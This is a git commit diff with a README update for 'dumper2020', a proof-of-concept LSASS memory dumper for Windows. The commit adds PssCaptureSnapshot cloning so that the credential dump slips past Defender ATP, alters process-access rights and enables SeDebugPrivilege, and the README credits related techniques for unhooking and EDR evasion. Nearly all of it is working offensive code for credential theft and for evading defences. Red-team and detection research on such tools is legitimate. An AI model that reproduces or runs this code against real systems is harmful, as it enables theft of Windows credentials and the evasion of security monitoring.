

PssCaptureSnapshot
- Utilize PssCaptureSnapshot to "copy" LSASS then dump the snapshot
- Update README
- Unrelated: Indicate when SeDebugPrivilege is enabled and only enable
it when necessary

diff --git a/dumper2020/dumper2020.cpp b/dumper2020/dumper2020.cpp
@@ -6,10 +6,11 @@
 #include <iostream>
 using namespace std;
 
-// Global RTL functions
+// Global functions
 fnRtlInitUnicodeString RtlInitUnicodeString;
 fnRtlEqualUnicodeString RtlEqualUnicodeString;
 fnRtlGetVersion RtlGetVersion;
+fnPssCaptureSnapshot PssCaptureSnapshot;
 
 // Function:    Dump
 // Description: Dump LSASS process memory to disk
@@ -23,7 +24,7 @@ BOOL Dump(const wchar_t* wcDumpPath)
         return FALSE;
 
     // Resolve RTL functions
-    if (!ResolveHelpers())
+    if (!ResolveFunctions())
         return FALSE;
 
     // Patch hooks as needed
@@ -32,6 +33,8 @@ BOOL Dump(const wchar_t* wcDumpPath)
     HANDLE hDump = NULL;    // Handle to dump file
     HANDLE hLsass = NULL;   // Handle to LSASS process
     DWORD dwPid = 0;        // LSASS PID
+    DWORD dwResult = 0;     // Result of LSASS snapshot attempt
+    HPSS hSnapshot = NULL;  // Handle to LSASS PSS snapshot
     BOOL bStatus = FALSE;   // Status of dump
 
     // Create destination file
@@ -54,16 +57,25 @@ BOOL Dump(const wchar_t* wcDumpPath)
 
                     if (MiniDumpWriteDump) {
 
-                        wcout << "[+] Dumping to: " << wcDumpPath << endl;
+                        // Capture snapshot of LSASS
+                        if ((dwResult = PssCaptureSnapshot(hLsass, (PSS_CAPTURE_FLAGS)dwSnapshotFlags, CONTEXT_ALL, &hSnapshot)) == ERROR_SUCCESS) {
+                            MINIDUMP_CALLBACK_INFORMATION CallbackInfo;
+                            ZeroMemory(&CallbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
+                            CallbackInfo.CallbackRoutine = ATPMiniDumpWriteDumpCallback;
+                            CallbackInfo.CallbackParam = NULL;
 
-                        // Perform the dump
-                        bStatus = MiniDumpWriteDump(hLsass, dwPid, hDump, MiniDumpWithFullMemory, NULL, NULL, NULL);
+                            wcout << "[+] Captured snapshot of LSASS process" << endl;
+                            wcout << "[+] Dumping to: " << wcDumpPath << endl;
 
-                        if (!bStatus)
-                            wcout << "[!] Dump failed: " << GetLastError() << endl;
-                        else
-                            wcout << "[+] Dump complete" << endl;
-                    
+                            // Perform the dump
+                            bStatus = MiniDumpWriteDump(hSnapshot, dwPid, hDump, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);
+
+                            if (!bStatus)
+                                wcout << "[!] Dump failed: " << GetLastError() << endl;
+                            else
+                                wcout << "[+] Dump complete" << endl;
+                        }
+                        else wcout << "[!] LSASS snapshot failed: " << dwResult << endl;
                     }
                     else wcout << "[!] Failed to locate MiniDumpWriteDump function" << endl;
                 }
@@ -152,15 +164,22 @@ BOOL Requirements()
             // SeDebugPrivilege LUID = 0x14
             if (pTokenPrivs->Privileges[i].Luid.LowPart == 0x14) {
                 
-                // Located SeDebugPrivilege, enable it
-                pTokenPrivs->Privileges[i].Attributes |= SE_PRIVILEGE_ENABLED;
+                // Located SeDebugPrivilege, enable it if necessary
+                if (!(pTokenPrivs->Privileges[i].Attributes & SE_PRIVILEGE_ENABLED)) {
 
-                // Apply updated privilege struct to token
-                if (NtAdjustPrivilegesToken(hToken, FALSE, pTokenPrivs, dwSize, NULL, NULL) == 0) {
+                    pTokenPrivs->Privileges[i].Attributes |= SE_PRIVILEGE_ENABLED;
+
+                    // Apply updated privilege struct to token
+                    if (NtAdjustPrivilegesToken(hToken, FALSE, pTokenPrivs, dwSize, NULL, NULL) == 0) {
                     
-                    // Should be good to go
-                    bMet = TRUE;
+                        wcout << "[+] Enabled SeDebugPrivilege" << endl;
+
+                        // Should be good to go
+                        bMet = TRUE;
+                    }
                 }
+                // SeDebugPrivilege already enabled
+                else bMet = TRUE;
             }
         }
 
@@ -179,21 +198,23 @@ BOOL Requirements()
     return bMet;
 }
 
-// Function:    ResolveHelpers
-// Description: Resolve addresses for RTL helper/utility functions exported by NTDLL
+// Function:    ResolveFunctions
+// Description: Resolve addresses for NTDLL/Kernel32 functions
 // Called from: Dump
 // Returns:     True if all functions are resolved, false if any are not
-BOOL ResolveHelpers()
+BOOL ResolveFunctions()
 {
-    // NTDLL handle
+    // Module handles
     HMODULE hNTDLL = GetModuleHandle(L"ntdll.dll");
+    HMODULE hKernel32 = GetModuleHandle(L"kernel32.dll");
 
     // Get function pointers
     RtlInitUnicodeString = (fnRtlInitUnicodeString)GetProcAddress(hNTDLL, "RtlInitUnicodeString");
     RtlEqualUnicodeString = (fnRtlEqualUnicodeString)GetProcAddress(hNTDLL, "RtlEqualUnicodeString");
     RtlGetVersion = (fnRtlGetVersion)GetProcAddress(hNTDLL, "RtlGetVersion");
+    PssCaptureSnapshot = (fnPssCaptureSnapshot)GetProcAddress(hKernel32, "PssCaptureSnapshot");
 
-    if (!RtlInitUnicodeString || !RtlEqualUnicodeString || !RtlGetVersion)
+    if (!RtlInitUnicodeString || !RtlEqualUnicodeString || !RtlGetVersion || !PssCaptureSnapshot)
         return FALSE;
     else
         return TRUE;
@@ -268,7 +289,7 @@ HANDLE GetHandle(DWORD dwPid)
 
     // Open the process
     HANDLE hProcess = NULL;
-    NtOpenProcess(&hProcess, PROCESS_VM_READ | PROCESS_QUERY_LIMITED_INFORMATION, &oa, &cid);
+    NtOpenProcess(&hProcess, PROCESS_CREATE_PROCESS | PROCESS_CREATE_THREAD | PROCESS_DUP_HANDLE | PROCESS_QUERY_INFORMATION, &oa, &cid);
 
     // Return handle
     return hProcess;
@@ -370,4 +391,23 @@ DWORD GetWinVersion()
     RtlGetVersion(&osVers);
 
     return osVers.dwMajorVersion;
+}
+
+// Function:    ATPMiniDumpWriteDumpCallback
+// Description: This function tells MiniDumpWriteDump that a PSS snapshot is being dumped
+// Sources:     https://github.com/b4rtik/ATPMiniDump
+//              https://docs.microsoft.com/en-us/previous-versions/windows/desktop/proc_snap/export-a-process-snapshot-to-a-file
+BOOL CALLBACK ATPMiniDumpWriteDumpCallback(
+    __in     PVOID CallbackParam,
+    __in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
+    __inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
+)
+{
+    switch (CallbackInput->CallbackType)
+    {
+    case 16: // IsProcessSnapshotCallback
+        CallbackOutput->Status = S_FALSE;
+        break;
+    }
+    return TRUE;
 }

diff --git a/dumper2020/proto.h b/dumper2020/proto.h
@@ -55,3 +55,55 @@ typedef BOOL(WINAPI* fnMiniDumpWriteDump)(
     PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
     PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
     );
+
+BOOL ATPMiniDumpWriteDumpCallback(PVOID CallbackParam, const PMINIDUMP_CALLBACK_INPUT CallbackInput, PMINIDUMP_CALLBACK_OUTPUT CallbackOutput);
+
+// PssCaptureSnapshot
+typedef enum
+{
+    PSS_CAPTURE_NONE = 0x00000000,
+    PSS_CAPTURE_VA_CLONE = 0x00000001,
+    PSS_CAPTURE_RESERVED_00000002 = 0x00000002,
+    PSS_CAPTURE_HANDLES = 0x00000004,
+    PSS_CAPTURE_HANDLE_NAME_INFORMATION = 0x00000008,
+    PSS_CAPTURE_HANDLE_BASIC_INFORMATION = 0x00000010,
+    PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION = 0x00000020,
+    PSS_CAPTURE_HANDLE_TRACE = 0x00000040,
+    PSS_CAPTURE_THREADS = 0x00000080,
+    PSS_CAPTURE_THREAD_CONTEXT = 0x00000100,
+    PSS_CAPTURE_THREAD_CONTEXT_EXTENDED = 0x00000200,
+    PSS_CAPTURE_RESERVED_00000400 = 0x00000400,
+    PSS_CAPTURE_VA_SPACE = 0x00000800,
+    PSS_CAPTURE_VA_SPACE_SECTION_INFORMATION = 0x00001000,
+    PSS_CAPTURE_IPT_TRACE = 0x00002000,
+
+    PSS_CREATE_BREAKAWAY_OPTIONAL = 0x04000000,
+    PSS_CREATE_BREAKAWAY = 0x08000000,
+    PSS_CREATE_FORCE_BREAKAWAY = 0x10000000,
+    PSS_CREATE_USE_VM_ALLOCATIONS = 0x20000000,
+    PSS_CREATE_MEASURE_PERFORMANCE = 0x40000000,
+    PSS_CREATE_RELEASE_SECTION = 0x80000000
+} PSS_CAPTURE_FLAGS;
+
+DWORD dwSnapshotFlags = PSS_CAPTURE_VA_CLONE
+                        | PSS_CAPTURE_HANDLES
+                        | PSS_CAPTURE_HANDLE_NAME_INFORMATION
+                        | PSS_CAPTURE_HANDLE_BASIC_INFORMATION
+                        | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION
+                        | PSS_CAPTURE_HANDLE_TRACE
+                        | PSS_CAPTURE_THREADS
+                        | PSS_CAPTURE_THREAD_CONTEXT
+                        | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED
+                        | PSS_CREATE_BREAKAWAY
+                        | PSS_CREATE_BREAKAWAY_OPTIONAL
+                        | PSS_CREATE_USE_VM_ALLOCATIONS
+                        | PSS_CREATE_RELEASE_SECTION;
+
+DECLARE_HANDLE(HPSS);
+
+typedef DWORD(WINAPI* fnPssCaptureSnapshot)(
+    HANDLE            ProcessHandle,
+    PSS_CAPTURE_FLAGS CaptureFlags,
+    DWORD             ThreadContextFlags,
+    HPSS*             SnapshotHandle
+    );

diff --git a/dumper2020/dumper2020.h b/dumper2020/dumper2020.h
@@ -11,7 +11,7 @@
 #include <string>
 
 BOOL Dump(const wchar_t* wcDumpPath);
-BOOL ResolveHelpers();
+BOOL ResolveFunctions();
 BOOL Requirements();
 DWORD GetPid();
 HANDLE GetHandle(DWORD dwPid);

diff --git a/README.md b/README.md
@@ -9,12 +9,10 @@ Yet another proof-of-concept for an LSASS memory dumper. This one incorporates e
 Dumper2020 relies almost completely on the work of others, to whom I owe a great deal of thanks:
 
 * **[@Jackson_T](https://twitter.com/Jackson_T)** - Syscall macros were generated with [SysWhispers](https://github.com/jthuraisamy/SysWhispers) and code from [TelemetrySourcerer](https://github.com/jthuraisamy/TelemetrySourcerer) was adapted for API hook detection/removal.
-
 * **[@monoxgas](https://twitter.com/monoxgas)** - [sRDI](https://github.com/monoxgas/sRDI) was integrated to dynamically load the system DLL that exports the *MiniDumpWriteDump* function.
-
 * **[@SpecialHoang](https://twitter.com/SpecialHoang)** - No LSASS dumping/EDR avoiding tool is complete without crediting this [2019 Medium post](https://medium.com/@fsx30/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6) and the associated proof-of-concept, [AndrewSpecial](https://github.com/hoangprod/AndrewSpecial), which uses Win32 API functions to unhook *NtReadVirtualMemory* before dumping LSASS.
-
 * **[@Cneelis](https://twitter.com/Cneelis)** - Building on @SpecialHoang's work, [Dumpert](https://github.com/outflanknl/Dumpert) uses syscalls to unhook *NtReadVirtualMemory* before dumping LSASS. The [associated write-up](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) is a fixture in the modern red team blog corpus.
+* **[@b4rtik](https://twitter.com/b4rtik)**/**[@matteomalvica](https://twitter.com/matteomalvica)** - Incorporated the Defender ATP *PssCaptureSnapshot* bypass detailed in this [blog post](https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/) and the associated proof-of-concept, [ATPMiniDump](https://github.com/b4rtik/ATPMiniDump).
 
 ### Background
 
